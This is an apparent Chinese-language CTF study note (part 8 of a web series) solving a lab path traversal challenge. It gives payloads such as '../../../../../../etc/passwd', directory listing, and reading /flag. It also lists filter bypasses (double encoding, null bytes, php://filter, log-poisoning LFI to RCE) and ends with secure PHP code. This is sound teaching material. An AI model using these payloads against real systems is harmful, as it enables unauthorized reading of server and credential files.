


> **CTF Web 学习笔记**（共 19 篇）　[📖 系列总览](/posts/ctf-learning/00-overview/)　·　[← 07 魔法哈希](/posts/ctf-learning/07-magic-hash/)　·　[09 千机禁域 →](/posts/ctf-learning/09-qianji-jinyu/)



> **一句话**：页面让你"输入玉简名称然后显示内容"，本质是**读服务器上的文件**。它只想让你在指定目录里读，但**没拦住 `../`**，所以你一路往上退到根目录，整台机器就对你敞开了。

| 项目 | 内容 |
|---|---|
| 类型 | 路径穿越（Path Traversal）· 任意文件读取 |
| 难度 | ★ |
| 入口 | `GET /?file=xxx` |
| 关键 payload | `../../../../../../flag` |
| 考点 | `../` 的含义、相对路径 vs 绝对路径 |

---

## ① 一眼看懂

页面标题是「金曦玄轨·破界之眼」，正文一大篇修仙设定，但真东西只有两处：

```html
<form method="GET">
  <input name="file" placeholder="输入信标路径或玉简名称...">
</form>
```

页面上还列了 6 个"玉简"（文件名）：

```
七绝傀儡阵_破阵要诀.md      五行遁甲_防护阵图.sec
周天星算_入门禁制           天衍符箓_基础篇.lst
宗门秘史.archive            金曦玄轨感应篇.txt
```

**⚠️ 这题最大的坑是"台词误导"** ：

> 「金曦玄轨乃宗门秘传，**擅用者需持长老令牌**。泄露宗门秘法者，废去修为，打入寒铁矿洞！」

这句话让很多人以为"要先搞到长老令牌才能继续"。**它跟题目机制毫无关系，就是背景音。**

**判断标准**：这段话能不能变成一条命令 / 一个参数 / 一个路径？
- 「需持长老令牌」→ 变不成任何命令 ❌ **装饰**
- 「输入信标路径」+ 一个输入框 → 直接能用 ✅ **提示**

---

## ② 思路图



---

## ③ 动手步骤

### 第 1 步：确认这个功能在读文件

输入框里填列表里的第一个名字，点「窥探本源」：

```
七绝傀儡阵_破阵要诀.md
```

**预期结果**：页面出现「当前玉简：七绝傀儡阵_破阵要诀.md」+「玉简内容」+ 文件正文。

👉 **这一步的意义**：确认"输入 → 变成服务器上的文件路径"。

### 第 2 步：先试绝对路径（故意试错）

```
/etc/passwd
```

**预期结果**：「**玄轨断裂！** 指定的信标路径不存在或无法解析。」

👉 **这个失败很有价值**：说明程序是把你输入的东西**拼在它自己的目录后面**（类似 `readfile("/app/data/" . $_GET['file'])`），所以得用"相对路径"往外退。

### 第 3 步：用 `../` 退出去

```
../../../../../../etc/passwd
```

**预期结果**：直接喷出 `root:x:0:0:root:/root:/bin/sh ...` —— **读到了！**

| 符号 | 含义 |
|---|---|
| `.` | 当前文件夹 |
| `..` | **上一层**（上级文件夹） |
| `../` | **退一层** |

写 6 组就是**连着退 6 层**，一路退到根目录 `/`。

### 第 4 步：先看根目录有什么（别瞎猜）

```
../../../../../
```

**预期结果**：页面变成**目录列表**，里面能看到：

```
..        （上级）
.dockerenv
app
bin
dev
entrypoint.sh
etc
flag      ← 就是它
home
lib
...
```

### 第 5 步：读出来

```
../../../../../../flag
```

**预期结果**：显示 `flag{...}`。

### 补充：想知道 flag 是怎么放进去的？

```
../../../../../../entrypoint.sh
```

**实测结果**：

```sh
#!/bin/sh
echo "$FLAG" > /flag
exec "$@"
```

**这一眼就说明了**：容器启动时把环境变量 `$FLAG` 写进了 `/flag`。
以后遇到"不知道 flag 在哪"的题，这个文件往往能直接告诉你答案。

---

## ④ 原理拆解

### 后端大概长这样

```php
$file = $_GET['file'];
$path = "/app/data/" . $file;      // 直接拼接，没有校验
if (file_exists($path)) {
    echo file_get_contents($path);  // 读出来给你看
}
```

### 你输入的路径被拼成了什么

```
输入：../../../../../../etc/passwd
拼接后：/app/data/../../../../../../etc/passwd
解析后：/etc/passwd          ← 系统会把 .. 逐层消掉
```

**核心机制**：操作系统在解析路径时，`..` 就是"回上一层"。
`/app/data/` 退 6 层 → `/`，于是 `../` 之后的绝对路径就生效了。

### 为什么绝对路径反而失败

因为拼接后变成 `/app/data//etc/passwd` —— 它被当成"`app/data` 下面有个叫 `etc` 的子目录"，当然不存在。

**所以穿越的关键是：用 `../` 先"退出去"，再往上走。**

### 目录列表是"白送的情报"

这个程序对目录也会输出内容。**真实渗透里这一步极重要**：

> **别一上来就猜 flag 在哪。先看有什么。**

很多题的 flag 文件名是随机的（比如前面 Project X 那题就是 `ffffllllaaaagggg114514`），只有先列出目录才知道。

---

## ⑤ 延伸与防御

### A. 真实世界对应

属于 **OWASP Top 10 A01:2021 Broken Access Control（访问控制失效）** 大类，更精确地对应：

- **CWE-22：Improper Limitation of a Pathname to a Restricted Directory（路径遍历）**
- **CWE-98 / CWE-73**：外部可控的文件名 / 路径

**真实案例方向**：路径穿越是历史上出现频率最高的 Web 漏洞之一。它常见于
**文件下载接口、图片读取接口、日志查看、模板加载、插件加载**等场景。

其中最危险的升级形态是 **LFI → RCE**：如果程序用的是 `include()` 而不是 `file_get_contents()`，攻击者可以读取服务器上的日志文件并往里写入 PHP 代码，从而**从"读文件"升级成"执行代码"**。

（本节未给出具体 CVE 编号与年份，如需引用请以官方公告核实。）

### B. 同类题变形

| 变形 | 应对思路 |
|---|---|
| **过滤了 `../`** | 用 `....//`（删掉中间的 `../` 后仍剩 `../`）、`..%2f`、URL 二次编码 `%252e%252e%252f` |
| **只允许特定后缀**（如必须 `.jpg`） | 用**空字节截断**（PHP < 5.3.4：`../../flag%00.jpg`）、或在支持的地方用 `/proc/self/root/...` |
| **路径被强制加前缀** | 试 `../` 数量够不够；试绝对路径能否覆盖 |
| **绝对路径可用** | 直接 `/flag`、`C:\flag`（Windows 用 `..\..\`） |
| **能列目录** | 先列目录再决定读什么，别猜 |
| **是 `include` 不是 `read`** | 升级成 LFI→RCE：配合日志文件投毒、`php://filter`、`data://` 伪协议 |
| **限制在某个目录** | 试 `php://filter/convert.base64-encode/resource=index.php` 读源码 |

### C. 防御写法

❌ **错误写法**

```php
$path = "/app/data/" . $_GET['file'];
echo file_get_contents($path);
```

✅ **正确写法**

```php
$base = "/app/data/";
$name = basename($_GET['file']);              // 1) 只取文件名，去掉所有目录部分
$path = realpath($base . $name);              // 2) 解析成真实绝对路径

if ($path === false || strpos($path, realpath($base)) !== 0) {
    http_response_code(403);                  // 3) 校验结果必须仍在允许目录内
    exit("forbidden");
}
echo file_get_contents($path);
```

**三个要点**：

1. **`basename()`** —— 把 `../../etc/passwd` 砍成 `passwd`，目录部分直接丢掉
2. **`realpath()` + 前缀校验** —— 先把路径解析成真实绝对路径，再确认它**仍然在允许的目录内**（这一步不能省，否则软链接等花招仍能绕过）
3. **用白名单** —— 如果只是"读指定的几个文件"，干脆让参数是 ID（`?file=1`），由程序去映射真实路径。**不暴露文件名，就没有穿越。**

**一句话**：**永远不要把用户输入直接当路径用。** 要么只取文件名，要么用 ID 映射。

---

## 附录：完整命令清单

```
# 1. 正常读
http://<靶机>/?file=七绝傀儡阵_破阵要诀.md

# 2. 试绝对路径（预期失败，用来判断拼接方式）
http://<靶机>/?file=/etc/passwd

# 3. 相对路径穿越
http://<靶机>/?file=../../../../../../etc/passwd

# 4. 列根目录（先侦察）
http://<靶机>/?file=../../../../../../

# 5. 读 flag
http://<靶机>/?file=../../../../../../flag

# 6. 看 flag 是怎么放进去的
http://<靶机>/?file=../../../../../../entrypoint.sh
```

## 附录：踩坑对照表

| 现象 | 原因 | 修法 |
|---|---|---|
| 被"需持长老令牌"之类台词绕进去 | 那是气氛装饰 | 只用"能变成命令/路径"的信息 |
| 绝对路径读不到 | 程序把输入拼在自己目录后面 | 改用 `../` 相对退出 |
| `../` 不够多 | 层级没退到根目录 | 多加几组 `../`（多了无害） |
| 不知道读哪个文件 | 没做侦察就猜 | 先 `?file=../../../../../../` 列目录 |
| 猜不到 flag 文件名 | 文件名是随机的 | 列目录，或读 `entrypoint.sh` 看启动脚本 |
